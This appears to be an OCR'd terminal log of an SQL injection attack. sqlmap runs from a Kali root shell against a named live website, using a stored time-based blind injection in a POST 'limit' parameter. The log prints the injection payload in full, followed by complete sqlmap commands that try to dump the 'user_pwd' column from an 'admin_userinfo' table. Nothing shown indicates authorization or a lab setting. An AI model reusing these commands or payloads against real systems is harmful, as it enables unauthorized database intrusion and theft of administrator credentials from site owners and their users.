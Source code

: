 [17:05:43] [INFO] loading tamper module 'between'
[17:05:43] [INFO] resuming back-end DBMS 'mysql' 
[17:05:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[17:05:43] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[17:05:43] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[17:05:43] [INFO] fetching entries of column(s) 'user_pwd' for table 'admin_userinfo' in database 'qaisare_com'
[17:05:43] [INFO] fetching number of column(s) 'user_pwd' entries for table 'admin_userinfo' in database 'qaisare_com'
[17:05:43] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[17:05:51] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[17:05:52] [WARNING] unable to retrieve the number of column(s) 'user_pwd' entries for table 'admin_userinfo' in database 'qaisare_com'
[17:05:52] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 17:05:52

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T admin_userinfo -C user_pwd --dump --time-sec
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

Usage: python sqlmap [options]

sqlmap: error: --time-sec option requires an argument
root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T admin_userinfo -C user_pwd --dump --time-sec 100
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org
